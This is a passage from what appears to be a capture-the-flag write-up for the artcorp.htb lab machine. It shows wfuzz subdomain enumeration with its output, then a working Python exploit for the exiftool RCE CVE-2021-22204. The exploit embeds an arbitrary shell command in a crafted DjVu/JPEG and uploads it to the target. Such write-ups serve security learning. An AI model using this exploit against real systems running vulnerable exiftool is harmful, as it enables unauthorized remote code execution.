     :::text
    └─$ wfuzz -c -w subdomains-top1million-5000.txt --sc 200 -H "HOST:FUZZ.artcorp.htb" http://artcorp.htb/
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://artcorp.htb/
    Total requests: 4989

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================

    000001492:   200        9 L      24 W       247 Ch      "dev01 - dev01"

    Total time: 8.590615
    Processed Requests: 4989
    Filtered Requests: 4988
    Requests/sec.: 580.7500

## dev01

The subdomain propose a tool to inspect images metadata.

![dev01 homepage](/media/2022.xx/meta_01.png)

There is a RCE vulnerability for `exiftool`:
[CVE-2021-22204](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)

We write a quick script to automate the RCE and get the result:

    :::python
    import os
    import sys
    import requests

    if len(sys.argv) !=2:
        print("usage: python3 l.py cmd")
        exit(0)

    payload = "(metadata \"\c${system('"+sys.argv[1]+"')};\")"

    f = open('payload', 'w')
    f.write(payload)
    f.close()

    os.system("cp 0.jpg 1.jpg")
    os.system('bzz payload payload.bzz')

    os.system("djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz")


    os.system("exiftool -config configfile '-HasselbladExif<=exploit.djvu' ./1.jpg")

    files = {'imageUpload': open('1.jpg','rb')}
    r = requests.post('http://dev01.artcorp.htb/metaview/index.php', files=files)
